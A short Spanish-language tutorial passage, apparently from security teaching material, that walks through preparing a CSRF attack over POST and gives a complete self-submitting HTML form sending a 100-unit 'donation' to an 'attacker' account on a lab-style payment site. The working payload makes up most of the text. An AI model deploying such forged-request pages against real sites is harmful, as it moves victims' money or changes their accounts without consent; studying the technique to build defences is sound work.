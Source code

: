 #### Preparación de un mensaje de ataque CSRF utilizando POST

Para llevar a cabo un ataque CSRF que envíe parámetros a través de POST, puedes utilizar un formulario HTML que se autoenvíe mediante JavaScript. A continuación, se muestra cómo podrías estructurar este ataque:

        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <title>CSRF Attack</title>
        </head>
        <body>
            <form action="http://web.pagos/donate.php" method="POST" id="csrf-form">
                <input type="hidden" name="amount" value="100" />
                <input type="hidden" name="receiver" value="attacker" />
            </form>
            <script>
                document.getElementById('csrf-form').submit();
            </script>
        </body>
        </html>
